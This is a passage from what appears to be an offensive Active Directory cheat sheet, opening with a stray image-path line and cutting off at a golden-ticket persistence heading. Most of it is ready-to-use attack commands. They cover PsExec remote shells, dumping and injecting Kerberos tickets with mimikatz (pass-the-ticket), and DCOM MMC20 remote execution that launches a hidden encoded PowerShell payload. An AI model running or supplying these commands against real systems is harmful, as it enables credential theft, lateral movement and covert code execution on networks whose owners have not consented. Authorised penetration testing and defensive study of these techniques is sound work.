 ##### Execution

```cmd
PS C:\> .\PsExec.exe \\<RHOST> cmd
```

#### Pass the Ticket

##### Prerequisites

- Export an already existing ticket of a user

##### Exporting the Ticket

```cmd
PS C:\> .\mimikatz.exe
mimikatz # privilege::debug
mimikatz #sekurlsa::tickets /export
PS C:\> dir *.kirbi
mimikatz # kerberos::ptt [0;12bd0]-0-0-40810000-<USERNAME>@cifs-<RHOST>.kirbi
PS C:\> klist
```

##### Execution

```cmd
PS C:\> .\PsExec.exe \\<RHOST> cmd
```

#### Distributed Component Object Model (DCOM)

##### Prerequisites

- Elevated PowerShell session

##### Creating and storing the Distributed Component Object Model

```cmd
PS C:\> $dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","<RHOST>"))
PS C:\> $dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c cmd","7")
C:\> tasklist | findstr "cmd"
```

##### Execution

```cmd
PS C:\> $dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JAB<--- SNIP --->CkA","7")
```

### Active Directory Persistence

#### Golden Tickets

##### Prerequisites
